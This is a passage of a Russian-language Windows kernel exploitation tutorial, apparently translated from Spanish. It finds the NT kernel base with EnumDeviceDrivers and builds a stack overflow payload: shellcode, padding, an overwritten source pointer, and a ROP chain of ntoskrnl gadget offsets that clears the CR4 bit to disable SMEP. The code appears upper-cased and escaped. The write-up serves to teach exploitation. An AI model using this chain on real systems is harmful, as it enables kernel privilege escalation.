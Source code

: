 Чтобы найти базу **NT**, мы используем **ENUMDEVICEDRIVERS**, который возвращает список с именами и базами всех драйверов. Обычно **NT** является первым, но мы можем сравнивать имя в цикле, пока не найдем нужный нам модуль и не найдем базу для него. Я вижу, что если я выполню скрипт после импорта отсутствующих модулей, скрипт будет работать и печатать базу **NT**.  
  
![25.png](https://wasm.in/attachments/25-png.4326/)   
  
Короче говоря, я обнаружил, что эти гаджеты, предназначенные для чтения регистра **CR4**, помещают в регистр **ECX** значение **0xFFEFFFFF**, затем исполняется инструкция **AND** **EAX** **ECX** которая сбрасывает **20** бит, а затем сохраняют его снова в **CR4.** Это и есть наш **ROP**.  
  
INPUT = STRUCT.PACK\(**"&lt;I"**, NT + 0X11FC10\)\# MOV EAX, CR4 - RET  
INPUT += STRUCT.PACK\(**"&lt;I"**, 0X75757575\) \# JUNK  
INPUT += STRUCT.PACK\(**"&lt;I"**, 0X76767676\) \# JUNK  
INPUT += STRUCT.PACK\(**"&lt;I"**, NT + 0X51976F\)\# POP ECX; RET  
INPUT += STRUCT.PACK\(**"&lt;I"**, 0XFFEFFFFF\) \# TO DISABLE SMEP  
INPUT += STRUCT.PACK\(**"&lt;I"**, NT + 0X50095C\)\# AND EAX,ECX; RET  
INPUT += STRUCT.PACK\(**"&lt;I"**, NT + 0X22F2DA\)\# MOV CR4,EAX; RET4  
  
Проблема в том, что я не могу поместить шеллкод под адресом возврата просто так, потому что там под адресом возврата находится указатель на источник, который читается, и если я перезапишу его, то может случиться сбой. Нужно сделать всё правильно.  
  
![26.png](https://wasm.in/attachments/26-png.4327/)   
  
Я вижу что, передавая только один **DWORD** адреса возврата, перезаписывается указатель на **USERBUFFER**, который является источником, так что не так-то просто поместить **ROP** внизу.  
  
DATA = SHELLCODE+ \(\(0X828 -LEN\(SHELLCODE\)\) \* **"A"**\) \#SHELLCODE  
DATA+= STRUCT.PACK\(**"&lt;I"**, NT + 0X51976F\) \#RETURN \(POP ECX-RET\) DATA+= **STRUCT.PACK\("&lt;L",INT\(BUF\)+0X82C\)** \# PUNTERO A SOURCE QUE PISO  
DATA+= INPUT \# ROP  
DATA+= STRUCT.PACK\(**"&lt;L"**,0X0BAD0B0B0 \) \# FIN  
  
Одной из возможностей было бы перезаписать этот указатель указателем на тот же шеллкод ниже. В этом случае у меня есть источник. Когда код перезаписывает его, он начинает указывать на начало моего шеллкода + **0x82C**, где находится **ROP**, поэтому код продолжает копировать его туда же ниже и ничего не сломается. Также я перезаписываю адрес возврата с помощью гаджета **POP** **ECX** - **RET**, чтобы при переходе к исполнению программа пропускала этот указатель на источник и переходила прямо к **ROP**, который был ниже.  
  
Я могу расположить **ROP** так, чтобы в начале у меня было несколько **RET**, чтобы компенсировать то, что возвращается из **RET8**, и удалить промежуточные отступы.  
  
INPUT = STRUCT.PACK\(**"&lt;I"**, NT + 0X519770\) \*4 \# RET  
INPUT += STRUCT.PACK\(**"&lt;I"**, NT + 0X11FC10\) \# MOV EAX, CR4 - RET  
INPUT += STRUCT.PACK\(**"&lt;I"**, NT + 0X51976F\) \# POP ECX; RET  
INPUT += STRUCT.PACK\(**"&lt;I"**, 0XFFEFFFFF\) \# TO DISABLE SMEP  
INPUT += STRUCT.PACK\(**"&lt;I"**, NT + 0X50095C\) \# AND EAX,ECX; RET  
INPUT += STRUCT.PACK\(**"&lt;I"**, NT + 0X22F2DA\) \# MOV CR4,EAX; RET4  
INPUT += STRUCT.PACK\(**"&lt;I"**, INT\(BUF\)\) \# A SHELLCODE  
  
Когда я выполняю этот код, я прихожу в **RET.**  
  
![27.png](https://wasm.in/attachments/27-png.4328/)   
  